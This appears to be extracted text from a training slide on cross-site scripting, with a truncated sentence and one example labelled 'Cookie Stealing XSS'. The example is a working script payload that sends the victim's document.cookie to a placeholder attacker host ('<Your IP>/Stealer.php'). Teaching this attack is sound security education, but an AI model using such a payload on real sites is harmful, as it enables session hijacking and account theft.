

# Cross-Site Scripting (XSS)
XSS could allow attackers to
Cookie Stealing XSS:
<script>document.write('<img src="http://<Your IP>/Stealer.php?cookie=' %2B document.cookie %2B '" />');</script>
140